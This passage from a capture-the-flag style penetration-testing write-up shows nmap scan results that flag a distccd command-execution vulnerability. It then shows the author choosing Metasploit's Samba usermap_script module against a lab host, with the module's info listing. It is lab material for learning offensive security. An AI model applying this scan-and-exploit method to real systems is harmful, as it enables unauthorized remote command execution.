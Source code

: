 ```
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://distcc.github.io/security.html
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```  

The nmapAutomator scan revealed a lot of interesting information about the target, including a likely vulnerbility. Instead of using the identifed vulnerabilites, I instead opted to go after the smb service, which I noted was a vulnerable version.  

```
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```  

After doing some quick research with searchsploit and exploit-db, I confirmed that the current smb version in use is vulnerable to a public exploit on metasploit. Below is the high level details on the multi/samba/usermap_script metasploit module.

```
msf6 exploit(multi/samba/usermap_script) > info

       Name: Samba "username map script" Command Execution
     Module: exploit/multi/samba/usermap_script
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-05-14

Provided by:
  jduck <jduck@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS  10.10.10.3       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
```